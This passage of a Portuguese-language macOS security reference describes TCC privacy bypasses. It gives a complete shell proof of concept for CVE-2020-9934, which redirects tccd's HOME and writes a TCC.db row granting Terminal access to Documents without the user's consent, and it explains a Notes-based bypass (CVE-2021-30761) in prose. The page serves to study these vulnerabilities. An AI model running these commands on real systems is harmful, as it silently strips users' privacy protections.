 ### CVE-2020–9934 - TCC <a href="#c19b" id="c19b"></a>

O daemon **tccd** do espaço do usuário está usando a variável de ambiente **`HOME`** para acessar o banco de dados de usuários do TCC em: **`$HOME/Library/Application Support/com.apple.TCC/TCC.db`**

De acordo com [esta postagem do Stack Exchange](https://stackoverflow.com/questions/135688/setting-environment-variables-on-os-x/3756686#3756686) e porque o daemon TCC está sendo executado via `launchd` dentro do domínio do usuário atual, é possível **controlar todas as variáveis de ambiente** passadas para ele.\
Assim, um **atacante poderia definir a variável de ambiente `$HOME`** em **`launchctl`** para apontar para um **diretório controlado**, **reiniciar** o **daemon TCC** e, em seguida, **modificar diretamente o banco de dados do TCC** para dar a si mesmo **todas as permissões do TCC disponíveis** sem nunca solicitar ao usuário final.\
PoC:
```bash
# reset database just in case (no cheating!)
$> tccutil reset All
# mimic TCC's directory structure from ~/Library
$> mkdir -p "/tmp/tccbypass/Library/Application Support/com.apple.TCC"
# cd into the new directory
$> cd "/tmp/tccbypass/Library/Application Support/com.apple.TCC/"                     
# set launchd $HOME to this temporary directory
$> launchctl setenv HOME /tmp/tccbypass
# restart the TCC daemon
$> launchctl stop com.apple.tccd && launchctl start com.apple.tccd
# print out contents of TCC database and then give Terminal access to Documents
$> sqlite3 TCC.db .dump                                                               
$> sqlite3 TCC.db "INSERT INTO access
                   VALUES('kTCCServiceSystemPolicyDocumentsFolder',
                   'com.apple.Terminal', 0, 1, 1,
X'fade0c000000003000000001000000060000000200000012636f6d2e6170706c652e5465726d696e616c000000000003',
                   NULL,
                   NULL,
                   'UNUSED',
                   NULL,
                   NULL,
                   1333333333333337);"
# list Documents directory without prompting the end user
$> ls ~/Documents
```
### CVE-2021-30761 - Notas

As notas tinham acesso a locais protegidos pelo TCC, mas quando uma nota é criada, ela é **criada em um local não protegido**. Então, você poderia pedir para as notas copiarem um arquivo protegido em uma nota (ou seja, em um local não protegido) e, em seguida, acessar o arquivo:

<figure><img src="../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>
